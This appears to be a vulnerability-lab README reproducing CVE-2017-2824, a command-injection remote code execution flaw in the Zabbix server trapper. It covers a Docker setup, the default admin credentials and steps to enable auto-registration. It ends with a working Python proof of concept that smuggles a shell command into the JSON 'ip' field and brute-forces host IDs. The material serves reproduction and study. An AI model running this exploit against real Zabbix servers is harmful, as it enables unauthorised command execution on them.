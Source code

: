 # Zabbix Server Active Proxy Trapper Remote Code Execution (CVE-2017-2824)

[中文版本(Chinese version)](README.zh-cn.md)

Zabbix is a server monitoring software that consists of server, agent, and web modules. The web module is written in PHP and is used to display results from the database.

In the Zabbix version 2.0.x prior to 2.0.21, 2.2.x prior to 2.2.18, 2.4.x, 3.0.x prior to 3.0.9, or 3.2.x prior to 3.2.5, there is a code execution vulnerability in Zabbix's server-side trapper command functionality, where specific packets can cause command injection, leading to remote code execution. An attacker can trigger this vulnerability by initiating a request from a Zabbix proxy.

Reference:

- https://talosintelligence.com/reports/TALOS-2017-0325
- https://support.zabbix.com/browse/ZBX-12075


## Environment Setup

Execute the following command to start a complete Zabbix 3.0.3 environment, including the Web interface, Server, 1 Agent, and MySQL database:

```
docker compose up -d
```

After executing the command, run `docker compose ps` to check if all containers have started successfully. If not, try running `docker compose up -d` again.

To exploit this vulnerability, you need to enable the auto-registration feature on the server side. First, log in to the backend as an administrator using the credentials `admin/zabbix`. Go to Configuration->Actions, change the Event source to Auto registration, then click Create action and create an Action with any name:

![](1.png)

In the third tab, create an Operation with type "Add Host":

![](2.png)

Save the settings. This enables the auto-registration feature, allowing attackers to register their servers as Agents.

## Vulnerability Reproduction

Use this simple POC to reproduce the vulnerability:

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

This POC is relatively basic and may need to be executed multiple times. When you see the following result, it indicates successful command execution:

![](3.png)

Enter the server container, and you can see that `/tmp/success` has been successfully created:

![](4.png)

Interested users can improve this POC and submit a Pull Request.
